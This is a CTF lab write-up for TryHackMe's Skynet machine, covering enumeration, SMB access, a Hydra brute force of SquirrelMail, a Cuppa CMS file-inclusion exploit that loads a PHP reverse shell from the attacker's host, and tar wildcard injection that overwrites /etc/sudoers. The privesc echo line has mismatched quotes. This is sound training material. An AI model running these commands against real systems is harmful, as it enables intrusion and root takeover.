# tryhackme ctf challenge skynet
my machine: 10.9.234.242
target ip: 10.10.255.185

### procedure
perform nmap scan `nmap -sC -sV 10.10.255.185`

```
#result
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: UIDL SASL CAPA AUTH-RESP-CODE PIPELINING TOP RESP-CODES
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: capabilities more Pre-login ID have IMAP4rev1 LOGIN-REFERRALS listed OK ENABLE post-login LITERAL+ SASL-IR IDLE LOGINDISABLEDA0001
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

perform gobuster scan to enumerate website directories `gobuster dir -w <path to wordlist> -u http://10.10.255.185`



lets enumerate the samba shares using nmap's scripting engine `nmap -p445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.255.185`

```
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.255.185\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (skynet server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.255.185\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: Skynet Anonymous Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\srv\samba
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.255.185\milesdyson: 
|     Type: STYPE_DISKTREE
|     Comment: Miles Dyson Personal Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\milesdyson\share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.255.185\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
| smb-enum-users: 
|   SKYNET\milesdyson (RID: 1000)
|     Full name:   
|     Description: 
|_    Flags:       Normal user account
```

lets login as `Anonymous` with blank password in the anonymous share using this command `smbclient //10.10.255.185/anonymous -U Anonymoys` and get the files



There were 2 files in the anonymous share

It looks like all employees of skynet had their password reset



This looks like a password list we use to brute into the `/squirrelmail`



Let's try to bruteforce it using hydra



Now lets login to the squirrel mail using milesdyson as the username and the password we got from hydra



One of the email mentioned milesdyson's smb reset password.



Lets try to login using kali's smbclient app. go to the notes directory and download the file `important.txt`



Looks like we found a hidden url to use. lets go to this directory


I tried to look into the page, but it was empty. lets try to perform gobuster again `gobuster dir -w <path to wordlist> -u http://10.10.255.185/45kra24zxs28v3yd/`

We got /administator. Looks like this is an old cms by cuppa. lets try to find an exploit for this using `searchsploit`





We have a result for LFI/RFI vulnerabilities for cuppa cms.

```
#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

lets setup a simple python server to setup a php reverse shell.
get the exploit from this link https://www.revshells.com/ and use the pentestmonkey add it to your local dir. On the same dir use the python command `python3 -m http.server` and setup a listener using `nc -lvnp <port#>`



Now type in this url http://10.10.255.185/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.234.242/payload.php and change the values as needed and now we get the shell.



Check the file `/etc/crontab` and we'll see backup.sh that runs every minute.



If we try to check the code, we'll see a tar command that archives the files from `/var/www/html` using a wildcard `*` which is vulnerable from wildcard injection. This is our vector for priv escalation. Kindly check this link to learn more https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/

Lets run the following commands

```
cd /var/www/html
# the command below will overwrite the sudoers file to give www-data sudo access with no password
echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "hello world" > "--checkpoint=1"
echo "hello world" > "--checkpoint-action=exec=sh privesc.sh"
```



Now, give it a minute and run the `sudo -l` command and there you have it.


